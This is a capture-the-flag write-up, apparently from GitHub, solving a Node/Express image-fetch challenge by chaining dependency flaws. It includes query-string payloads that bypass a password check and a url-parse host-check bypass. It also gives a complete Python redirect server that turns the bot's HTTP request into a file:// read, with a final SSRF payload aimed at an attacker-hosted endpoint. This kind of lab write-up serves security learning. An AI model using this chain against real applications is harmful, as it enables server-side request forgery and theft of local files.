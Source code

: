 ## Skills required: NodeJS/Express backend framework, URL parsing confusion, being resourceful

At first I misread the two demo flags as 2 *parts* of 1 flag as opposed to 2 flags (for the 2 challenges) and delayed solving it.
The decision to switch to this challenge proved to be right by the number of solves (and my eventual solve half an hour before the end).

## Solution:

For the first step, I always **look at the dependencies, whose vulnerabilities may give realistic attack surfaces**.
I used `npm audit` as the primary way, but I also looked at Snyk.

<details>
  <summary> Show formatted and simplified npm audit output </summary>
<pre>
Moderate        Incorrect hostname / protocol due to unstripped leading control characters.
  Package         url-parse
  More info       https://github.com/advisories/GHSA-jf5r-8hm2-f872
Critical        Authorization Bypass Through User-Controlled Key in url-parse
  Package         url-parse
  More info       https://github.com/advisories/GHSA-hgjh-723h-mx2j
Moderate        Authorization bypass in url-parse
  Package         url-parse
  More info       https://github.com/advisories/GHSA-rqff-837h-mm52
Moderate        Open redirect in url-parse
  Package         url-parse
  More info       https://github.com/advisories/GHSA-hh27-ffr2-f2jc
Moderate        Incorrect returned href via an '@' sign but no user info and hostname
  Package         url-parse
  More info       https://github.com/advisories/GHSA-8v38-pw62-9cw2
Moderate
  Package         url-parse
  More info       https://github.com/advisories/GHSA-9m6j-fcg5-2442
Moderate        Improper Validation and Sanitization in url-parse
  Package         url-parse
  More info       https://github.com/advisories/GHSA-46c4-8wrp-j99v
High            Open Redirect in url-parse
  Package         url-parse
  More info       https://github.com/advisories/GHSA-pv4c-p2j5-38j4

# Run  npm install express@4.18.2  to resolve 2 vulnerabilities
High            qs vulnerable to Prototype Pollution
  Package         qs
  More info       https://github.com/advisories/GHSA-hrpp-h998-j3pp
High            qs vulnerable to Prototype Pollution
  Package         qs
  More info       https://github.com/advisories/GHSA-hrpp-h998-j3pp

# Run  npm update ejs --depth 1  to resolve 1 vulnerability
Critical        ejs template injection vulnerability
  Package         ejs
  More info       https://github.com/advisories/GHSA-phwq-j96m-2c2q

# Run  npm update minimatch --depth 4  to resolve 2 vulnerabilities
High            minimatch ReDoS vulnerability
  Package         minimatch
  More info       https://github.com/advisories/GHSA-f8q6-p94x-37v3
High            minimatch ReDoS vulnerability
  Package         minimatch
  More info       https://github.com/advisories/GHSA-f8q6-p94x-37v3

# Run  npm update express --depth 1  to resolve 1 vulnerability
High            qs vulnerable to Prototype Pollution
  Package         express
  More info       https://github.com/advisories/GHSA-hrpp-h998-j3pp
</pre>
</details>

Using `npm audit` is a little bit better than snyk, as it captured a prototype pollution vulnerability in `qs`,
which in [snyk](https://security.snyk.io/package/npm/express/4.17.1) would require signing in to show:

![image](https://user-images.githubusercontent.com/114584910/210392189-83d741cc-06fa-476b-bef9-064d501c19bb.png)

While this may not reveal vulnerabilities by misconfiguration, now I had a rough picture of what to look for when I **look at the code** and try the app now:

### Weird permission check
```js
if (req.query.password.length > 12 || req.query.password != "Th!sIsS3xreT0") {
    return res.send(`You don't have permission\n${req.query.password.length}\n${req.query.password}`)
}
```
- Th!sIsS3xreT0 is 13-character long while its length has to be at most 12
- One key is that loose inequality `!=` is used instead of strict inequality `!==`, we can try using variables of different types.
- This can be solved in 2 ways:
  1. We can use the [prototype pollution vuln](https://github.com/advisories/GHSA-hrpp-h998-j3pp) discovered: `?password[__proto__]=Th!sIsS3xreT0&password[__proto__]&password[length]=1`
  1. As the `extended` flag of `bodyParser.urlencoded` is true (juicy express stuff), I can simply supply `?password[]=Th!sIsS3xreT0`, which makes password an array of length 1, containing the string

### Protocol and host checking
```js
const IsValidProtocol = (s, protocols = ['http', 'https']) => {
    try {
        new URL(s); ``
        const parsed = parse(s);
        return protocols
            ? parsed.protocol
                ? protocols.map(x => x.toLowerCase() + ":").includes(parsed.protocol)
                : false
            : true;
    } catch (err) {
        return false;
    }
};
const isValidHost = (url => {
    const parse = new urlParse(url)
    // console.log(parse)
    return parse.host === "i.ibb.co" ? true : false
})
app.post('/api/getImage', isAdmin, validate, async (req, res, next) => {
    try {
        const url = req.body.url.toString()
        let result = {}
        if (IsValidProtocol(url)) {
            const flag = isValidHost(url)
            if (flag) {
                console.log("[DEBUG]: " + url)
                let res = await downloadImage(url)
                result = res
            } else {
                result.status = false
                result.data = "Invalid host i.ibb.co"
            }

        } else {
            result.status = false
            result.data = "Invalid url"
        }
        res.json(result)
    } catch (error) {
        res.status(500).send(error.stack)
    }
})
```
- Requests to `/api/getImage` will pass through 2 middlewares: `isAdmin` and `validate`. If the checks fail, the requests are blocked. `validate` is not interesting at least for this challenge.
- `IsValidProtocol` checks a few things:
  - The URL is valid according to NodeJS's `url` module (otherwise an error is thrown)
  - The parsed protocol is either `http` or `https`.
    - While it might be possible to inject some property to the protocols array, say `protocols[2]="file",` .map will refuse to handle that due to the length being `2`, which cannot be changed by pollution
  - This part alone is not very interesting.
- `isValidHost` uses the vulnerable `url-parse` to check the host.
  - For some background information, **[URL parsing is extremely difficult](https://www.slideshare.net/codeblue_jp/a-new-era-of-ssrf-exploiting-url-parser-in-trending-programming-languages-by-orange-tsai)** (by Orange Tsai)
  - The URL is checked with `url-parse` (javascript), but it's finally used in `bot.py` (python) so interesting things can happen
  - Enumerating the vulns (snyk does present them in a nicer format):
    - ~~CVE-2022-0639~~ invalid new URL()
    - ~~CVE-2022-0686~~ parsed host must contain :
    - ~~CVE-2022-0691~~ invalid URL
    - ~~CVE-2022-0512~~ parsed host must contain @
    - ~~CVE-2021-3664~~ parsed host is empty
    - ~~CVE-2021-27515~~ parsed host is empty
    - ~~CVE-2020-8124~~ *this is why the service maker implemented the WAF but finally gave up and used Python (I love the little story)*
    - **CVE-2018-3774** `https://<mydomain>\@i.ibb.co` *(I missed this initially and only saw %5c, which produces invalid URL, kudos for admin's reassurance)*
    - *Post solve reflection: I should have given up rewriting the protocol earlier from the vulnerabilities alone, there is also another good clue in the next part*

### Python file retrieval logic
```py
url = sys.argv[1]
headers = {'user-agent': 'PythonBot/0.0.1'}
request = requests.session()
request.mount('file://', LocalFileAdapter())

# check extentsion
white_list_ext = ('.jpg', '.png', '.jpeg', '.gif')
vaild_extension = url.endswith(white_list_ext)
if (vaild_extension):
    # check content-type
    res = request.head(url, headers=headers, timeout=3)
    if ('image' in res.headers.get("Content-type")
            or 'image' in res.headers.get("content-type")
            or 'image' in res.headers.get("Content-Type")):
        r = request.get(url, headers=headers, timeout=3)
        print(base64.b64encode(r.content))
    else:
        print(0)
else:
    print(0)
```
- The unparsed url must end with some image formats. *This check is useless ~~because I can put whatever I like in the #hash~~*
- The **content-type** part is the most interesting, because it hinted that a direct use of `file` protocol in the `url` variable passed from `index.js` would be meaningless, as our flag is plain text.
  - **I need to build my own server and redirect the HTTP request to a FILE request, turning RFI into LFI**
  - Having played CyberSecurityRumble2022, I know that I can create [SimpleHTTPServers](https://docs.python.org/3/library/http.server.html#http.server.SimpleHTTPRequestHandler) that can handle HEAD, GET or even SPAM requests with ease.
  - *This check is useless **because I own the server** - I can redirect to wherever I like.*

Then I quickly spun up a server:
- Note how GET and HEAD are the same, this is okay because [HEAD requests don’t follow redirects anymore.](https://requests.readthedocs.io/en/latest/community/updates/?highlight=HEAD#id101)
- 172.17.0.1 is the default docker0 gateway
- This code allows for arbitrary file read.

<details>
  <summary>Show my local exploit code</summary>

```py
#!/usr/bin/python3
from threading import Thread
from sys import argv
from sys import getsizeof
from time import sleep
from socketserver import ThreadingMixIn
from http.server import SimpleHTTPRequestHandler
from http.server import HTTPServer
from re import search
from os.path import exists
from os.path import isdir

class ThreadingSimpleServer(ThreadingMixIn, HTTPServer):
    pass

class CyberServer(SimpleHTTPRequestHandler):
    def version_string(self):
        return f'Linux/cyber'

    def do_HEAD(self):
        path = self.path[1:] or ''
        for ext in ('.jpg', '.png', '.jpeg', '.gif'):
            if path[-len(ext):] == ext:
                path = path[:-len(ext)]
            url = "file:///"+path.replace('/%5C@i.ibb.co', '')
        self.send_response(302, 'Found')
        self.send_header('Location', url)
        self.send_header('Content-type', 'image/jpeg')
        self.end_headers()

    def do_GET(self):
        self.do_HEAD()


class CyberServerThread(Thread):
    server = None

    def __init__(self, host, port):
        Thread.__init__(self)
        self.server = ThreadingSimpleServer((host, port), CyberServer)

    def run(self):
        self.server.serve_forever()
        return


def main(host, port):
    cyberProtector = CyberServerThread(host, port)
    cyberProtector.server.shutdown
    cyberProtector.daemon = True
    cyberProtector.start()
    while True:
        sleep(1)

if __name__ == "__main__":
    host = "0.0.0.0"
    port = 1337
    if len(argv) >= 2:
        host = argv[1]
    if len(argv) >= 3:
        port = int(argv[3])
    main(host, port)
```
</details>

![yay](https://user-images.githubusercontent.com/114584910/210415637-41b06a19-fd1d-43a5-89e9-75a873a66661.png)

### Hosting the thing

I have had pretty good experience with https://webhook.site but the `\@i.ibb.co` URL part won't pass.
Fortunately a similar site https://beeceptor.com offers a similar service, but a subdomain is used as opposed to a subfolder. It also supports conditional rules based on method and path. A final payload of `url=https://alrighty.free.beeceptor.com:443\@i.ibb.co/pwn.jpg` should work.

![bee](https://user-images.githubusercontent.com/114584910/210415568-c963d440-b6cb-41e0-a366-1babd69febfb.png)
